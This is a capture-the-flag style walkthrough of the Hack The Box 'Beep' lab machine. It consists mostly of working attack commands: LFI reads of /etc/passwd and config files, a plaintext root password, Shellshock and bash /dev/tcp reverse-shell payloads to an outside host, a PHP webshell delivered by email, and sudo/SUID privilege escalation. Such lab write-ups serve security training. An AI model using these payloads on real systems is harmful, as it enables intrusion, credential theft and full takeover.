 # 🚨 HTB: Beep

[Easy](Easy)

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.7
```

### 🔍 Targeted Script Scan
```bash
nmap -sC -sV -p 22,25,80,110,111,143,443,745,993,995,3306,4190,4445,4559,5038,10000 -oA nmap/scriptstcp 10.10.10.7
```

### 🔍 Scan for SSL Protocols
```bash
sslscan 10.10.10.7
```

---

## 🌐 Web Enumeration

### 🔍 HTTPS Redirect from Port 80
- Access via: `https://10.10.10.7/`

### 🔍 Directory Bruteforce
```bash
dirsearch.py -u https://10.10.10.7/ \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-e txt,php -t 50
```

> Notable: `/admin`, `/vtigercrm`, `/recordings`, `/configs`, `/mail`, `/panel`

---

## 🗂️ Local File Inclusion (LFI)

### 🔍 Exploit LFI
```bash
curl "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/passwd%00&module=Accounts&action"
```

---

## 📥 Credential Collection

### 📁 Read Config for Passwords
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```

---

## ✉️ [SMTP](SMTP) User Discovery

### 📫 VRFY with Telnet
```bash
telnet 10.10.10.7 25
EHLO test
VRFY fanis
VRFY cyrus
```

---

## 🧑‍💻 Exploit Paths

---

## [Path #1] 💥 RCE via 18650.py (Elastix)

### 🔍 Identify Extension
```bash
svwar -m INVITE -e100-999 10.10.10.7
```

### 🛠️ Patch Python Script for TLSv1.0
```python
ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE
urllib.urlopen(url, context=ctx)
```

### ⚙️ Run Exploit
```bash
python2 18650.py
```

### 🐚 Listener
```bash
nc -lnvp 443
```

---

## [Path #2] 🌐 [Webmin Login](HTTP)

### 🔑 Login
- URL: `https://10.10.10.7:10000`
- Creds: `root / jEhdIekWmdjE`

### 🧨 Reverse Shell via Scheduled Command
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"
```

### 🐚 Listener
```bash
nc -lnvp 443
```

---

## [Path #3] 🔐 [SSH](SSH) as root

```bash
ssh root@10.10.10.7
# Password: jEhdIekWmdjE
```

---

## [Path #4] ☠️ Shellshock via Webmin CGI

### 🧪 Proof of Concept
```http
User-Agent: () { :; }; ping -c 1 10.10.14.2
```

### 🐚 Reverse Shell Payload
```http
User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
```

### 🐚 Listener
```bash
nc -lnvp 8081
```

---

## [Path #5] 📧 Webshell Upload via Email + LFI

### 📤 Send PHP Shell via Email
```bash
swaks --to asterisk@localhost \
--from 0xdf@0xdf.htb \
--header "Subject: shell" \
--body '<?php system($_REQUEST["cmd"]); ?>' \
--server 10.10.10.7
```

### 🔍 Access Webshell via LFI
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id
```

---

## 🛗 Privilege Escalation

### [1] 🚪 `nmap` Interactive Shell
```bash
sudo nmap --interactive
nmap> !bash
```

### [2] 📦 SUID Binary Trick via `chmod`
```bash
sudo chmod 4755 /bin/bash
bash -p
```
